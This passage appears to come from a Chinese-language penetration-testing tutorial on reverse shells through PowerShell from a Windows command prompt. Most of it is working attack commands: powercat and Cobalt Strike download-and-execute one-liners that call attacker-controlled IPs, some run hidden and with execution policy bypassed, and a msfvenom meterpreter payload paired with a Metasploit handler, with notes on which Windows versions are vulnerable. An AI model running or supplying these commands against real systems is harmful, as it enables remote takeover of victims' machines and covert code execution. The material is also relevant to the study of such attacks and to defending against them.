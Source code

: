 ```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
​
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd.exe"
```

[![](https://p2.ssl.qhimg.com/t0130a00894642619fc.png)](https://p2.ssl.qhimg.com/t0130a00894642619fc.png)[![](https://p0.ssl.qhimg.com/t012a50a651f1877cc6.png)](https://p0.ssl.qhimg.com/t012a50a651f1877cc6.png)

[![](https://p1.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p1.ssl.qhimg.com/t012eb09f21483b324d.gif)

**cmd窗口下利用Powershell反弹CobaltStrike shell**

windows10 经常性不能用。windows 2008R2以下百分百适用。

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"   #后台运行

powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"
```

**cmd窗口下反弹MSF shell**

**VPS上的操作**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=114.128.90.138 lport=7788 -f psh-reflection &gt;7788.ps1        #生成木马文件 7788.ps1
​
python -m SimpleHTTPServer 80  #开启web服务
​
#MSF监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 114.118.80.138
set lport 7788
exploit -j
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01214ac445a6e8b8e5.png)[![](https://p2.ssl.qhimg.com/t011a75008f44be4743.png)](https://p2.ssl.qhimg.com/t011a75008f44be4743.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01db4e16dd59dcd8d3.png)



**目标机的操作**

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"  #后台运行
​
或者
​
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"
```
